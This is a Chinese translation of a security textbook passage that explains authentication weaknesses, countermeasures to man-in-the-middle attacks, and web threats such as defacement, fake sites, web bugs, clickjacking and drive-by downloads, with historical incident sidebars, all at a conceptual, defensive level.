正如我们在第 2 章中首次所述，认证基于你所知、你是何人或你所拥有的东西。人们在开发面对面认证时一直在使用这些特质。人类认证技术的例子包括驾驶执照或身份证、共同熟人或可信第三方的介绍信、照片（用于面部识别）、共享密钥或口令。（“password”一词最初的用法是指对哨兵说出的一句口令，以允许说话者通过检查站。）因为我们人类会运用判断力，所以我们会形成一种感觉，知道何时认证是充分的，何时事情似乎不对劲。当然，人类也可能被欺骗，正如侧边栏 4-2 所述。

在第 2 章中，我们探讨了使用生物识别和所谓的智能身份证等复杂技术的人机认证。尽管该领域发展迅速，但此类方法仍需考虑人类的易用性：极少有人愿意，更不用说能够，记住许多唯一的、冗长的、不可猜测的密码。这些人为因素可能影响许多场景下的认证，因为人类往往在认证中扮演角色，即使是在一台计算机对另一台计算机的认证中也是如此。但完全自动化的计算机间认证存在额外的困难，我们将在下文描述。

当用户在线与银行通信时，通信实际上是用户到浏览器，以及计算机到银行的计算机。虽然银行会对用户进行认证，但用户几乎没有感觉到自己已对银行进行了认证。更糟的是，中间的用户浏览器和计算机实际上与银行的计算系统交互，但用户既看不到也无法控制这种交互。我们需要一条从用户的眼睛和手指到银行的可靠路径，但这条路径要穿过一个不透明的浏览器和计算机。

计算机认证使用与人类认证相同的三个基本要素，只是有明显的变化。利用计算机所拥有或所是的东西进行认证的方法相对较少。如果计算机的地址或组件的序列号无法被伪造，那便是一个可靠的认证因子，但伪造或冒充攻击可能很隐蔽。计算机天生不“知道”任何东西，但它们可以记住（存储）许多东西并推导出更多。正如你在密钥交换等主题中所见，问题在于如何生成一个仅由两台计算机共享的秘密。

除了获取可靠的认证数据外，还必须考虑认证是如何实现的。本质上，计算机的每一个输出都由软件控制，而这些软件可能是恶意的。如果计算机响应提示并输出用户的密码，软件可以指示该计算机保存密码，稍后重用或重复发送给另一个进程，`SilentBanker`中间人浏览器攻击就是这种情况。如果认证涉及计算加密结果，加密密钥在计算过程中必须放置在某处，可能容易被另一个恶意进程复制。或者在另一端，如果软件能干扰认证检查代码使任何值都能通过，认证就会受损。因此，认证中的漏洞不仅包括认证数据，还包括用于实现认证的过程。Halperin 等人 [HAL08a] 在他们对植入式医疗设备（如起搏器）无线电控制的分析中，对此漏洞进行了令人不寒而栗的描述。当我们在第 13 章考虑“物联网”的安全影响时，将探讨这些风险。

---

**你的银行采取措施认证你，但你如何认证你的银行？**

---

即使我们暂时搁置初始认证的问题，我们也需要考虑持续认证的问题：一台计算机认证了另一台计算机并准备进行某种数据交换后，每台计算机都必须监控窃听或劫持攻击，即一台新计算机进入通信，虚假声称是已认证的那台，如图 4-6 所示。


**图 4-6** 没有持续认证，双方都无法信任对方

在认证讨论中有时会被忽视的是，可信度是双向的：系统需要保证用户是真实的，但用户也需要对系统有同等的保证。这个第二个问题导致了一类新的计算机欺诈，称为网络钓鱼，即毫无戒心的用户向冒充可信系统的恶意系统提交敏感信息。（我们将在本章后面探讨网络钓鱼。）网络钓鱼攻击的常见目标是银行和其他金融机构：欺诈者利用从客户处获取的敏感数据，从真实机构窃取客户的资金。其他网络钓鱼攻击用于在受害者的计算机上植入恶意代码。

因此，认证在几个方面存在脆弱性：

- 易用性和准确性在识别和认证中可能冲突：更易用的系统可能准确性较低。但用户要求易用性，至少一些系统设计师会关注这些用户需求。
- 计算机间交互为认证提供了有限的基础。计算机认证主要基于计算机所知，即存储或可计算的数据。但存储的数据可能被未授权进程定位，一台计算机能计算的，另一台也能计算。
- 恶意软件可通过窃听（拦截）认证数据并允许其稍后重用来破坏认证。精心放置的攻击代码还可以等待用户完成认证，然后干扰已认证会话的内容。
- 计算机交换的双方都需要对对方的真实身份有保证。这对人机交互和计算机对人交互均适用。

中间人攻击的具体情况为我们提供了一些有趣的对策，可应用于识别和认证。

### 成功的识别和认证

借鉴日常人类活动，为针对识别和认证的攻击提供了一些有用的对策。

#### 共享密钥

银行和信用卡公司努力寻找新方法，确保信用卡号持有者是真实的。第一个密钥是母亲的婚前姓氏，这是银行在某人开户时可能会询问的。然而，当所有金融机构都开始使用这个相同的密钥时，它就不再那么秘密了。接着，信用卡公司转向印在信用卡上的秘密验证号，以证明提供卡号的人也持有该卡。同样，过度使用正在降低该认证因子的有效性。现在，金融机构要求新客户填写据推测只有本人知道的问题的答案。成长的街道、就读的第一所学校、第一辆车的型号正变得流行，也许太流行了。只要不同地方使用不同的问题且答案不易推导，这些措施就能确认认证。

基本概念是共享密钥，即只有通信双方实体才知道的信息。如果一方向另一方询问关于他们共同进餐的细节、最近公司活动的细节或其他共同话题，就可以挫败人为的中间人攻击。同样，计算机系统的共享密钥也有助于认证。可能的密钥包括上次登录的时间或日期、上次更新的时间，或特定应用程序文件的大小。

***

**为了有效，共享密钥必须是任何恶意中间代理都无法知晓的信息。**

***

#### 一次性密码

顾名思义，**一次性密码**仅适用于一次使用。要使用一次性密码方案，通信双方需要拥有一个共享的密码列表。当使用一个密码后，双方都将其从列表中划去，下一次使用列表中的下一个密码。

`SecurID`令牌（在第 2 章中介绍）每 60 秒生成一个新的随机数。接收端计算机有一个程序，可以计算任何给定时刻的随机数，因此它可以将输入的值与预期值进行比较。

#### 带外通信

带外通信是指沿着独立于另一事实通信路径的路径传输一个事实。例如，银行卡`PIN`码总是与银行卡分开邮寄，这样如果装卡的信封被盗，窃贼没有`PIN`码就无法使用该卡。同样，如果客户致电银行称忘记了`PIN`码，银行不会简单地在电话中提供新的`PIN`码；而是将包含新`PIN`码的单独信件邮寄到档案中的账户持有人地址。这样，如果有人冒充客户，`PIN`码就不会发送给冒充者。一些银行通过向用户手机发送短信来确认大额互联网资金转账。然而，正如侧边栏 4-3 所示，手机也容易受到中间人攻击。

***

侧边栏 4-3 移动中间人攻击

`Zeus`特洛伊木马是最繁衍的恶意代码之一。它可配置、易于攻击者使用且有效。其所有者不断更新和修改它，以至于安全公司`Symantec`已统计出基本代码的 70,000 多个变种。由于变种数量众多，恶意代码检测器必须不断更新其定义。`Zeus`在黑客市场上售价几百美元。它针对金融网站交互，一次攻击就能收回成本。

`Zeus`也涉足了手机消息市场。据安全公司`S21Sec`称，`Zeus`现在有一个应用程序，可能被无意中下载到智能手机上；通过短信，`Zeus`与其命令与控制中心通信。但因为它安装在手机上，它还可以拦截或篡改金融机构发送给客户手机的短信。

***

美国国防部使用一种称为`STU-III`的安全电话。客户拨打电话，在与另一端的正确对方建立通信后，双方按下按钮使电话进入安全模式；电话随后加密通话的其余部分。作为进入安全模式设置的一部分，两部电话共同生成一个随机数，并在电话窗口中显示。为了防范中间人攻击，指示呼叫者朗读该数字，以便双方确认他们手机窗口上显示的是同一个数字。中间的窃听者可能能够拦截初始呼叫建立，并用第二部`STU-III`电话呼叫预期接收者。然后，窃听者将一部`STU-III`的听筒贴在另一部的话筒上，就可以实施中间人攻击。然而，这两部电话将建立两个不同的会话并显示不同的随机数，因此通话双方会知道他们的谈话被拦截了，因为例如一方听到的数字是 101，但显示屏上显示的是 234。

正如这些示例所示，利用一些外部信息（无论是共享密钥还是带外通信的信息）都可以挫败中间人攻击。

#### 持续认证

在本书的几个地方，我们都论证了持续认证机制的必要性。虽然在这些方面并不完美，但强加密在很大程度上提供了解决方案。

如果双方进行加密通信，想要介入通信的闯入者必须破解加密，或导致加密重置，从而在拦截者和一端之间进行新的密钥交换。（这种后一种技术称为会话劫持，我们将在第 6 章中研究。）这两种攻击都很复杂但并非不可能。然而，如果攻击者能在加密前或解密后介入通信，这种对抗措施就会失效。这些问题并不削弱加密在维护双方认证方面的总体强度。但请注意，加密本身并非能解决所有安全缺陷的魔法仙尘，误用的加密反而会带来虚假的安全感。

***

**加密可以提供持续认证，但必须小心地正确设置并保护端点。**

***

这些机制——签名、共享密钥、一次性密码和带外通信——都是建立包含真实参与方并排除冒充者的上下文的方法。

### 4.2 面向用户的 Web 攻击

接下来我们考虑涉及 Web 内容的两类情况。第一类涉及虚假内容，最可能是因为内容被未经授权的人修改了；其意图是误导查看者。第二类更危险，旨在危害查看者。

#### 虚假或误导性内容

有时很难判断一件艺术品是真迹还是赝品；艺术专家可以争论多年谁是真正的艺术家，即使达成共识，将一幅画归属为达芬奇或伦勃朗的作品也只是观点，而非确定性。正如侧边栏 4-4 所述，莎士比亚作品的作者身份可能永远无法解决。判断一幅画*不是*名画家的作品可能更容易：孩子的蜡笔画永远不会被误认为是著名艺术家的作品，因为例如伦勃朗不使用蜡笔，或者他在光影和透视法上的运用比孩子成熟得多。

***

侧边栏 4-4 谁写了莎士比亚的戏剧？

当被问及谁写了归于这位诗人名下的任何戏剧时，大多数人会回答“莎士比亚”。但 150 多年来，文学学者一直存有疑虑。1852 年，有人提出牛津伯爵爱德华·德·维尔至少写了部分作品。几十年来，学术界围绕莎士比亚为数不多的教育、旅行、工作日程和经历等已知事实展开了激烈辩论。

20 世纪 80 年代开发了一种新的分析技术：文本的计算机化分析。不同的研究人员研究了诸如用词选择、不同戏剧中使用的意象、词对、句子结构等特质——任何能显示相似性或差异性的结构元素。（例如，参见[FAR96]和[KAR01]，以及*[www.shakespeareoxfordfellowship.org](http://www.shakespeareoxfordfellowship.org)*。）随着研究人员开发出越来越多的特质来关联数据库（戏剧语言和其他归于莎士比亚名下的作品），争论仍在继续。这场争议可能永远无法解决。

但这项技术已被证明很有用。1996 年，一位名为 Anonymous 的作者出版了小说《Primary Colors》。许多人试图确定作者是谁。但 Vassar College 的教授 Donald Foster 在一些简单计算机工具的帮助下，将这部小说归因于 Joe Klein，后者后来承认是作者。Peter Neumann [NEU96]在 Risks 论坛中指出，即使试图改变写作风格，要想令人信服地撒谎有多难，因为有“电话记录、信用卡记录、飞机预订数据库、图书馆记录、爱管闲事的邻居、巧合般的邂逅等”——简而言之，因为有聚合数据。

这种方法在文学领域之外也有用途。2002 年，统计分析软件供应商 SAS Institute 推出了数据挖掘软件，用于在旧电子邮件和其他大量文本中寻找模式。到目前为止，数据挖掘已成为一个主要的商业领域，常用于将营销定位到最有可能成为客户的人群。（参见第 7 章中关于数据挖掘的讨论。）SAS 建议模式分析可能有助于识别和拦截虚假邮件。另一个可能的用途是检测谎言，或者至少标记潜在的不一致性。它也被用来帮助定位恶意代码的作者。

***

计算机工件的情况也类似。一条不连贯的消息、一个充满语法错误的网页或一个奇特的政治立场都能提醒你有可疑之处，但精心制作的伪造品可能毫无质疑地通过。以下的虚假手段包括显而易见的和微妙的伪造。

#### 篡改网站

最简单的攻击是**网站篡改**，当攻击者替换或修改合法网站的内容时就会发生。例如，2010 年 1 月，BBC 报道称，欧盟新任主席的网站被篡改，显示了英国喜剧演员 Rowan Atkinson（Mr. Bean）的照片，而不是主席的照片。

这些攻击的性质各不相同。通常攻击者只是在网页内容上写一条像“你被耍了”这样的消息，以证明该网站已被黑客攻击。在其他情况下，攻击者发布的消息与原网站的消息相对立，例如动物权益团体在赛狗团体的网站上抗议虐待动物。其他变化则更微妙。例如，最近的政治攻击微妙地替换了候选人自己网站的内容，虚假暗示该候选人说过或做过一些不得人心的事。或者将网站修改作为第一步，攻击者可以将页面上的链接重定向到恶意位置，例如呈现一个虚假登录框并获取受害者的登录 ID 和密码。所有这些攻击都试图破坏网页的完整性。

网站篡改的目的也各不相同。有时目标只是为了证明一个观点或让受害者难堪。一些攻击者寻求发表政治或意识形态声明，而另一些人则只寻求关注或尊重。在某些情况下，攻击者是在表明一个观点，证明击败完整性是可能的。《New York Times》、美国国防部或 FBI 以及政党的网站经常以这种方式成为目标。Sidebar 4-5 描述了篡改一家防病毒公司网站的情况。

***

Sidebar 4-5 防病毒制造商的网站遭袭

网站修改并不新鲜。但当一家安全公司的网站受到攻击时，人们会注意到。2010 年 10 月 17 日，安全研究和防病毒产品公司 Kaspersky 的一个下载网站的访问者被重定向到提供虚假防病毒软件的网站，持续了几个小时。

在发现重定向后，Kaspersky 将受影响的服务器下线，将事件归咎于“一个有缺陷的第三方应用程序” [*ITPro,* 2010 年 10 月 19 日]。

银行劫匪 Willy Sutton 据称在被问及为什么抢劫银行时说过，“那是钱所在的地方。”还有什么比劫持一家客户准备安装软件、以为自己在防范恶意代码的公司的网站，来隐藏恶意代码更好的方法呢？

***

篡改之所以常见，不仅因为其可见性，还因为实施起来很容易。网站的设计使其代码被下载，使攻击者能够在加载过程中获得完整的超文本文档和所有指向客户端的程序。攻击者甚至可以查看程序员在构建或维护代码时留下的注释。下载过程本质上给了攻击者网站的蓝图。

#### 虚假网站

一种类似的攻击涉及虚假网站。在 Figure 4-7 中，我们展示了 Barclays Bank（英格兰）网站的一个虚假版本，网址为`http://www.gb-bclayuk.com/`。真正的 Barclays 网站位于`http://group.barclays.com/Home`。正如你所见，伪造者在顶部图像上遇到了一些麻烦，但如果修复了这一点，网站的其余部分看起来会很逼真。


**FIGURE 4-7** Barclays Bank 的虚假网站

网站很容易伪造，因为攻击者可以获得真实网站用于生成其网站的图像副本。攻击者所要做的就是更改链接的值，将毫无戒心的受害者重定向到攻击者选择的地点。

***

**攻击者可以获取真实网站使用的所有图像；虚假网站看起来可以很逼真。**

***

#### 虚假代码

在第 3 章中，我们讨论了恶意代码——其来源、影响和对策。我们描述了打开文档或点击链接如何导致隐蔽下载代码，这些代码表面上什么也不做，但会安装隐藏的感染。我们没有提到的一种传播途径是显式下载：有意安装的程序，可能宣称有一个目的，但实际做完全不同的事情。Figure 4-8 显示了一个看似真实的广告，宣传流行的 Adobe Reader 的替代品或更新。该链接来自`www.pdf-new-2010-download.com`，该链接从`www.adobe-download-center.com`重定向而来；这两个地址看起来都像 Adobe 可能用来分发合法软件的 URL 类型。


**FIGURE 4-8** 虚假软件广告

这种攻击是仅为了欺骗还是为了危害，取决于实际交付的代码。这个例子展示了恶意软件如何伪装成合法软件。如果恶意软件至少似乎实现了其表面功能（在本例中是显示和创建 PDF 文档），这种骗局可以在一段时间内不被察觉。对于恶意代码编写者来说，在目标机器上安装代码最简单的方法可能是创建一个用户愿意下载和安装的应用程序。正如我们在第 13 章中所述，智能手机应用非常适合分发虚假或误导性代码，因为有大量年轻、容易轻信的智能手机用户。

作为另一个例子，安全公司 f-Secure 建议（2010 年 10 月 22 日）注意一个 Microsoft Security Essentials 工具的虚假版本。真正的工具定位并根除恶意软件；虚假工具报告虚假的——不存在的——恶意软件。其操作示例如 Figure 4-9 所示。毫不奇怪，该虚假工具发现的“感染”只能通过虚假工具治愈，正如你所料，这些虚假工具通过虚假工具的网站出售，如 Figure 4-10 所示。


**FIGURE 4-9** 虚假[Microsoft] Security Essentials 工具


**FIGURE 4-10** 发现的感染和待售的对抗工具

#### 保护网站免遭篡改

##### 网站完整性与恶意内容

网站旨在供客户端访问。尽管某些网站仅面向授权客户，并通过密码或其他访问控制进行限制，但其他网站则面向公众开放。因此，内容控制必须不显眼，不得限制绝大多数用户的正常使用。

我们最喜欢的完整性控制手段——加密，往往并不适用：向所有用户分发解密密钥会削弱加密的有效性。然而，加密的两种用途有助于保持网站内容的完整性。

###### 完整性校验和

正如我们在第 2 章所述，校验和、哈希码或错误检测码是一种数学函数，它将数据块（包括可执行程序）缩减为少量的位。更改数据会以大多不可预测的方式影响函数的结果，这意味着很难——尽管并非不可能——以某种方式更改数据，使得结果函数值保持不变。使用校验和，你信任或期望重大更改会使校验和值失效。


# 回顾第 1 章

某些安全控制可以预防攻击，而其他控制只能在攻击成功*之后*检测到攻击。对于检测控制，我们期望能足够早地发现攻击，使损害不会太大。危害程度取决于数据的价值，即使该价值难以衡量。对列出明天电视节目表或天气预报的网站进行更改，可能会给许多人带来不便，但影响不会是灾难性的。而多年前某场演出评论的网络存档，可能一个月只被一个人访问一次。对于这类网站，在更改发生数小时甚至数天后检测到更改已足够。当然，检测其他网站的更改则更具紧迫性。以秒、小时或周为频率，网站管理员需要检查并修复更改。

***

**完整性校验和可以检测网站上被篡改的内容。**

***

为了检测数据修改，管理员使用完整性检查工具，其中 `Tripwire` 程序 [KIM98]（在第 2 章中描述）最为人所知。在将代码或数据放置到服务器上时，管理员运行 `Tripwire` 为每个文件或其他数据项生成哈希值。这些哈希值必须保存在安全的地方，通常是离线存储或位于与受保护数据分离的网络上，以便入侵者无法在修改敏感数据的同时修改这些哈希值。管理员按需重新运行 `Tripwire`，并比较新旧哈希值，以确定是否发生了更改。

## 签名代码或数据

使用完整性检查器有助于服务器端管理员了解数据是否完好；但它无法向客户端提供保证。一种类似但更复杂的方法也适用于客户端。

因恶意入侵者提供代码或其他数据而导致下载到错误代码或数据的问题，也可以通过外部认证来处理。正如第 2 章所述，数字签名是一种电子印章，可为文件或其他数据对象的真实性作担保。接收方可以检查该印章，以验证其来自被认为签署了该对象的人员或组织，且该对象在签署后未被修改。

降低虚假代码风险的一种部分方法是**签名代码**。用户可以暂存下载的代码，直到完成印章检查。在验证印章真实有效且覆盖正在下载的整个代码文件后，用户即可安装获取的代码。

***

**数字签名可以为程序、更新或数据集的真实性作担保。问题在于，信任签名者的合法性。**

***

可信的第三方为一段代码追加数字签名，意在暗示代码更值得信任。谁可能是这个可信方？知名制造商作为代码签名者是可识别的。事实上，`Microsoft` 为 `Windows` 的关键部分加盖数字签名以保护其完整性。每次加载代码时（通常在系统重启时）都会验证该签名。但对于设备驱动程序或代码插件的小型、几乎无人知晓的制造商又该如何？如果代码供应商不为人知，其自行签名代码并无助益；不法分子也能发布自己的签名代码。正如侧边栏 4-6 所述，恶意代理还可能颠覆合法的签名基础设施。此外，用户必须检查签名的有效性：Sally 的签名无法确认 Ben 的代码是合法的。

签名恶意代码的威胁是真实存在的。据反恶意软件公司 `McAfee` 统计，数字签名恶意软件在 2010 年获得的代码项中仅占 1.3%，但这一比例在 2011 年上升至 2.9%，2012 年达到 6.6%。不法分子申请并获得合法证书。毫无戒心的用户（及其浏览器）随后将这些签名视为软件真实且无恶意的证明。部分问题在于，签名证书对任何人来说获取相对容易且廉价；证书仅表明所有者是在其运营所在地区注册的正规企业，别无其他。尽管签名认证机构在颁发签名证书时尽到了合理的勤勉义务，但仍有不良行为者漏网。因此，签名代码可能确认接收到的软件是发送者发送的内容，但无法确认软件执行的功能完全符合或仅符合用户的预期。

***

### 侧边栏 4-6 Adobe 代码签名基础设施被攻破

2012 年，`Adobe` 宣布其部分代码签名基础设施遭到攻破，攻击者得以分发带有有效 `Adobe` 数字签名的非法代码。在该事件中，攻击者获得了 `Adobe` 代码生产库中一台服务器的访问权限；利用该服务器，攻击者能够将任意代码植入软件构建中，并通过合法 `Adobe` 软件的标准流程为该软件请求签名。

此次攻击仅引入了两个非法工具，且仅影响少量用户。然而，清理工作要求 `Adobe` 废弃被攻破的数字签名、颁发新签名，并制定受影响工具的重新签名流程。幸运的是，被攻破的服务器隔离得相对较好，仅能访问一款产品的源代码；因此，潜在损害的范围得到了控制。

***

## 恶意网站内容

刚才描述的案例可能是无害的，也可能是有害的。其中一个示例表明，任意代码可被传递给毫无防备的网站访问者。该示例并非必须传递恶意代码，因此它可能是非恶意的，也可能是恶意的。同样，有人可能以一种令人尴尬、欺骗或仅仅是戏弄的方式重写网站——篡改者的动机可能并不明显。然而，下面的示例具有明确的有害意图。我们接下来的攻击涉及试图对用户造成伤害的网页。

### 在真实网站上替换内容

网站篡改类似于涂鸦：它表达一种声明，但除此之外作用不大。对网站所有者而言，这可能令人尴尬，并会吸引关注，这可能正是攻击者的唯一意图。更具破坏性的攻击者很快意识到，他们可以用类似的方式替换网站的其他部分，且不引人注目。

### Web Bug

你可能知道，一个网页由许多文件组成：一些文本、图形、可执行代码和脚本。当网页加载时，文件会从目标位置下载并处理；在处理过程中，它们可能会调用其他文件（可能来自其他站点），这些文件随即被下载和处理，直到所有调用都得到满足。当获取远程文件以供包含时，请求也会发送请求者的 IP 地址、浏览器类型以及为请求站点存储的任何 Cookie 的内容。这些 Cookie 允许页面显示诸如“Welcome back, Elaine”之类的通知，调出你上次访问的内容，或将你重定向到特定的网页。

一些广告商想要统计访问者数量以及每个访问者到达站点的次数。他们可以通过 Cookie 和不可见图像的组合来实现这一点。**Web bug**（也称为 **clear GIF**、**1x1 GIF** 或 **tracking bug**）是一个微小的图像，小至 1 像素乘 1 像素（取决于分辨率，屏幕每英寸至少显示 100 到 200 个像素），小到通常不可见。尽管如此，它的加载和处理方式与较大的图片相同。处理的一部分是通知 bug 的所有者（即广告商），从而让广告商得知又有一个用户加载了广告图像。

单个公司无需 web bug 也能做同样的事情。如果你在线订花，花店可以获取你的 IP 地址并设置一个包含你详细信息的 Cookie，以便将你识别为回头客。Web bug 允许跨多个商家进行这种追踪。

你的花店可能会订阅一项网络追踪服务，我们将其命名为 ClicksRUs。花店在其网页图像中包含一个 web bug，因此当你加载该页面时，你的详细信息会被发送给 ClicksRUs，后者随即安装一个 Cookie。如果你离开花店的网站，接下来访问一家也订阅了 ClicksRUs 追踪服务的面包店网站，新页面也会有一个 ClicksRUs web bug。这一次，如 Figure 4-12 所示，ClicksRUs 检索其旧 Cookie，发现你上一次在花店的网站，并记录这两家公司的巧合。在关联这些数据点后，ClicksRUs 可以通知花店和面包店它们有共同客户，并可能制定联合营销方案。或者 ClicksRUs 可以确定你从花店 A 到花店 B 再到花店 C 最后回到花店 A，因此它可以向它们报告 B 和 C 输给了 A，帮助它们制定更成功的营销策略。或者 ClicksRUs 可以推断你正在寻找礼物，并在你访问的下一个网站上提供有针对性的广告。ClicksRUs 可能会从花店 D 和小饰品商 E 那里获得广告收入，这将影响它向你展示的广告。正如我们在 Chapter 9 中所解释的，Web bug 和追踪服务是一门大生意。


**FIGURE 4-12** Web Bugs

***

**被称为 Web bug 的微小动作点可以将页面遍历模式报告给中央收集点，从而危害隐私。**

***

Web bug 也可以用于带有图像的电子邮件中。垃圾邮件发送者获得一份电子邮件地址列表，但不知道这些地址是否活跃，即是否有人在该地址阅读邮件。通过嵌入的 web bug，当电子邮件在浏览器中打开时，垃圾邮件发送者会收到一份报告。或者，一家怀疑其电子邮件落入竞争对手或其他未授权方手中的公司，可以插入一个 web bug，无论是作为直接收件人还是转发收件人，每当邮件被打开时，它都会上报。

Web bug 是恶意的吗？可能不是，尽管有人会声称未经宣布的追踪是对隐私的有害侵犯。但正如接下来所述，不可见图像在更恶意的活动中也很有用。

### Clickjacking

假设你在一个加油站，有三个按钮供你选择想要的燃油等级。站主注意到大多数人购买价格最低的燃油，但他最大的利润来自价格最高的产品，于是决定耍个花招。他在最低价和最高价的按钮上分别贴上标签，分别写着“high performance”（贴在最低价按钮上）和“economy”（贴在昂贵、高利润的按钮上）。因此，一些人会无意中按下 economy/高价按钮，无意中产生更高的利润。这不公平且具有欺骗性，没错，但如果老板不择手段，这招就会奏效；然而，大多数企业不会尝试这样做，因为这不道德且可能失去客户。但计算机攻击者不在乎道德或客户流失，所以这种技术的一个变体就成了计算机攻击。

考虑这样一个场景：攻击者想诱使受害者做某事。正如你在本书的几个例子中所见，植入特洛伊木马并不难。但应用程序和操作系统会让用户确认潜在危险的操作——这相当于加油机显示屏询问“are you *sure* you want to buy the most expensive fuel?” 诀窍在于让用户在不知情的情况下同意。

如 Figure 4-13 所示，计算机攻击使用一张图片覆盖在另一张图片之上（即显示在顶层）。我们都熟悉“Do you want to delete this file? [Yes] [No]”这样的点击框。**Clickjacking** 是一种技术，本质上会导致该提示框滑动，使得 `[Yes]` 始终位于鼠标指针下方。攻击者还会使该框透明，因此受害者不知道自己点击了任何东西。此外，第二张可见的图片被粘贴在下方，因此受害者以为被点击的框是类似“For a free prize, click [Here]”的东西。受害者点击屏幕上 `[Here]` 所在的位置，但 `[Here]` 根本不是按钮；它只是直接位于不可见的 `[Yes]` 按钮下方的一张图片。鼠标点击选择了 `[Yes]` 按钮。


**FIGURE 4-13** Clickjacking

***

#### 点击劫持：通过伪装链接指向目标，诱使用户点击链接

很容易看出这种攻击将如何被利用。攻击者选择一个用户通常不会同意的操作，例如

- 你真的要删除所有文件吗？
- 你真的要将联系人列表发送给垃圾邮件商家吗？
- 你真的要安装这个程序吗？
- 你真的要将密码更改为 `AWordYouDontKnow` 吗？
- 你真的要允许全世界对你的个人资料拥有写入权限吗？

对于每一个此类问题，点击劫持攻击者只需能猜出确认框将出现的位置，使其透明，并将“获取免费奖品，点击[这里]”框滑到危险操作确认框那个不可见的“[是]”按钮下方。

这些示例让你对点击劫持的潜在危害有了初步认识。监视攻击可能会激活计算机摄像头和麦克风，而攻击会遮盖住确认框；这种攻击曾被用于攻击 Adobe Flash，如视频 [`www.youtube.com/watch?v=gxyLbpldmuU`](http://www.youtube.com/watch?v=gxyLbpldmuU) 所示。侧边栏 4-7 描述了众多 Facebook 用户如何遭遇点击劫持攻击而受骗。

点击劫持攻击之所以能得逞，是因为攻击者能够：

- 选择并加载一个带有确认框的页面，该确认框只需一次或极少量的鼠标点击即可让用户承诺执行某项操作（例如，“你要安装这个程序吗？[是] [取消]”）
- 将图像颜色更改为透明
- 将图像移动到屏幕上的任意位置
- 将良性图像叠加在恶意图像下方（请记住，恶意图像是透明的），其中看起来像按钮的东西正好位于攻击者想要的操作的真实（但不可见）按钮（如“是”安装程序）正下方
- 诱导受害者点击良性图像上看似按钮的东西

这两项技术任务——将颜色改为透明和移动页面——之所以都能实现，是因为一种称为**框架**的技术，即使用 **iframe**。`iframe` 是一种结构，可以包含整个页面或页面的一部分，可以放置并移动到另一个页面的任何位置，并且可以分层置于其他框架的上方或下方。虽然框架对于管理复杂的图像和内容（如反馈页面上用于输入长文本回复的带滚动条的框）很重要，但框架也助长了点击劫持。

但是，正如我们在下一个攻击讨论中将展示的那样，攻击者无需创建复杂的 Web 图像即可获取或更改用户的数据。

### 侧边栏 4-7 Facebook 点击劫持攻击

2010 年夏季，数千名 Facebook 用户被诱骗发帖称他们“喜欢”某个特定网站。据 BBC 新闻（2010 年 6 月 3 日）报道，受害者看到的是许多朋友都“喜欢”的网站，例如一场世界杯网球赛的视频。当用户点击查看该网站时，会看到另一条消息，要求他们点击确认年满 18 岁。

受害者没有看到的是，确认框是一个假象，其下方隐藏着一个不可见的框，要求他们确认“喜欢”目标网站。当受害者点击确认年满 18 岁时，实际上是在确认他们“喜欢”该视频。

这次攻击似乎没有造成恶意影响，只是抬高了某些良性网站的“喜欢”数字。然而，你很容易想象这种攻击可能造成的严重危害。

### 驱动式下载

与点击劫持攻击类似，**驱动式下载**是一种在未经用户许可、通常也未经用户知情的情况下，将代码下载、安装并在计算机上执行的攻击。在 2011 年 4 月的一个驱动式下载示例中，美国邮政署的一个网页被 Blackhole 商业恶意漏洞利用工具包攻陷。点击邮政署网站上的链接会将用户重定向到俄罗斯的一个网站，该网站显示看起来像熟悉的“错误 404—未找到页面”消息，但该俄罗斯网站实际上安装了经过精心匹配的恶意代码，以适配用户的浏览器和操作系统类型（*eWeek*，2011 年 4 月 10 日）。

**驱动式下载：下载并安装用户意料之外的代码**

Eric Howes [HOW04] 描述了一次攻击，他访问了一个表面上帮助人们识别歌词的网站。怀疑存在驱动式下载，Howes 进行了一项实验，他使用一台已编制已安装软件目录的计算机，以便确定访问该网站后安装了什么。

进入网站时，站点显示一个弹出屏幕，请求允许安装来自“Software Plugin, Ltd.”的“software plugin”程序。该弹出窗口由从站点主页加载的隐藏框架生成，试图运行脚本 `download-mp3.exe`，这个名字对于处理音乐的网站来说似乎很合适。当他同意下载时，Howes 发现有八个不同的程序（及其支持代码和数据）被下载到他的机器上。

他检测到的变化包括

- 来自至少四家不同公司的八个新程序
- 九个新目录
- 三个新浏览器工具栏（包括 图 4-14 中所示的有趣工具栏）


**图 4-14** 驱动式下载的工具栏

- 许多新的桌面图标
- “另存为”对话框底部新增一项，提供购买电脑配件并参与调查以参加抽奖的机会
- 许多新的“收藏夹”条目
- 一个新的浏览器启动页

从计算机中清除这些垃圾极具挑战性。例如，更改浏览器启动页仅在浏览器打开时有效；关闭浏览器并重新打开会恢复被修改的启动页。只有部分程序出现在“添加/删除程序”中，通过那种方式删除程序仅部分成功。Howes 还追踪到提供软件的公司路径，从这些公司下载并运行卸载工具，同样仅部分成功。在这两次删除尝试后，Howes 的反恶意软件工具又发现并清除了更多代码。他最终不得不手动删除一些残留文件。

幸运的是，似乎没有长期隐藏的注册表更改，那将更难清除。Howes 对此次下载有所准备，并有一台备用机器愿意牺牲用于实验，同时也有时间和耐心来挽回其造成的所有破坏。大多数用户不会有如此准备或运气。

这个例子表明了驱动式下载可能造成的损害范围。此外，在这个例子中，用户实际上同意了下载（尽管 Howes 并不同意所有实际被下载的内容）。在一种更隐蔽的驱动式下载形式中，如邮政署的例子，下载只是一个脚本。它在网页显示时运行，探测计算机漏洞，以便稍后在未经许可的情况下进行下载。

### 防范恶意网页

防范恶意 Web 内容的基本手段是访问控制，如 第 2 章 所述。我们希望以某种方式防止恶意内容在用户系统上建立或执行。

访问控制实现了**隔离**，使两类事物分离。在此背景下，我们希望将恶意代码拒之于用户系统之外；遗憾的是，这并不容易。

用户下载代码以添加新应用程序、更新旧应用程序或改进执行。此外，通常在用户不知情或未经同意的情况下，包括浏览器在内的应用程序可以临时或永久地下载代码，以协助处理某种数据类型（例如显示用户不熟悉格式的图片）。尽管某些操作系统要求管理员权限才能安装程序，但这种做法并非通用。而且一些缺乏经验的用户始终以管理员模式运行。即使操作系统确实要求单独的权限来添加新代码，习惯了操作系统烦人的弹出框的用户也会毫不犹豫地点击`[Allow]`。正如你所见，这种解释要求用户和操作系统都采取更强有力的行动，这对双方都不太可能。此处的相关措施包括最小权限、用户培训和可见性。

另一种控制是网页所有者的责任：确保网页上的代码是良好、干净或合适的。同样，这种情况发生的可能性很小，主要有两个原因。首先，网页上的代码可能来自多个来源：库、复用模块、第三方、承包商和原创编程。网站所有者专注于站点开发而非维护，因此将看似能工作的代码放置在网站上，可能就足以让开发团队转向下一个项目。即使代码在最初可供下载时是良好的，也极少有站点管理员随时间监控以确保代码保持良好。

